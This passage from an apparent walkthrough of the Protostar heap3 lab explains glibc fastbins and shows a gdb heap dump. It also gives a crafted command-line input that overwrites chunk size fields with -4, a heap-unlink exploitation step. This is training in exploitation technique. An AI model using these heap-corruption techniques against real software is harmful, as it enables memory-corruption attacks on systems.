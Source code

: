 ```shell
(gdb) x/50x 0x804c000
0x804c000:      0x00000000      0x00000029      0x0804c028      0x00000000
0x804c010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x0804c050      0x00000000      0x00000000      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000029      0x00000000      0x00000000
0x804c060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c090:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0c0:      0x00000000      0x00000000
```

We notice that while the `fd` member is correctly set for the chunks, `bk`
and `prev_size` are not. This is due to a feature of the allocator called
fastbins which is used for chunks smaller than 64 bytes by default. Quoting
from the glibc Malloc Internals page,

> Small chunks are stored in size-specific bins. Chunks added to a fast bin
> ("fastbin") are not combined with adjacent chunks - the logic is minimal to
> keep access fast (hence the name). Chunks in the fastbins may be moved to
> other bins as needed. Fastbin chunks are stored in a single linked list,
> since they're all the same size and chunks in the middle of the list need
> never be accessed.

During exploitation, we want our chunks to be treated as normal chunks. We can
do this easily since we can control the `size` member of each chunk.)

There is one final hurdle to exploitation that we need to overcome. Writing to
the `size` and `prev_size` members require the use of NULL bytes. We are unable
to do so because any NULL bytes that we pass to the program as an argument will
be treated as a string terminator.

The Phrack paper [Once upon a free()][once-upon-a-free] describes a clever
trick to avoid this issue. If we supply a value like `0xFFFFFFFC` (-4 as a
signed integer), the allocator will not place the chunk in the fastbin as
`0xFFFFFFFC` as an unsigned integer is a much larger value than 64. Due to an
integer overflow during pointer arithmetic, the allocator thinks that the
previous chunk actually starts at 4 bytes past the start of the current chunk.

<img src="../images/protostar-heap-unlink-3.png" alt="Heap Diagram 3" class="center-image" >

Putting together what we have learnt so far, we get the following input to the
program. We overwrite the `prev_size` and `size` members with -4. The
`\x42\x42\x42\x42` and `\x43\x43\x43\x43` are the `fd` and `bk` members
respectively.

```shell
user@protostar:~$ /opt/protostar/bin/heap3 AAAA `python -c "print 'A' * 32 + '\xfc\xff\xff\xff' + '\xfc\xff\xff\xff' + 'A' * 4 + '\x42\x42\x42\x42\x43\x43\x43\x43'"` DDD
Segmentation fault
```


[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: 2018-05-22-protostar-walkthrough-stack
[protostar-format-writeup]: 2018-05-27-protostar-walkthrough-format
[dlmalloc]: http://g.oswego.edu/dl/html/malloc.html
[glibc-malloc-internals]: https://sourceware.org/glibc/wiki/MallocInternals
[understanding-the-heap]: https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf
[phrack-vudo]: http://phrack.org/issues/57/8.html
[once-upon-a-free]: http://phrack.org/issues/57/9.html
[advanced-dlmalloc-exploits]: http://phrack.org/issues/61/6.html
[malloc-maleficarum]: https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt
[malloc-des-maleficarum]: http://phrack.org/issues/66/10.html
[how2heap]: https://github.com/shellphish/how2heap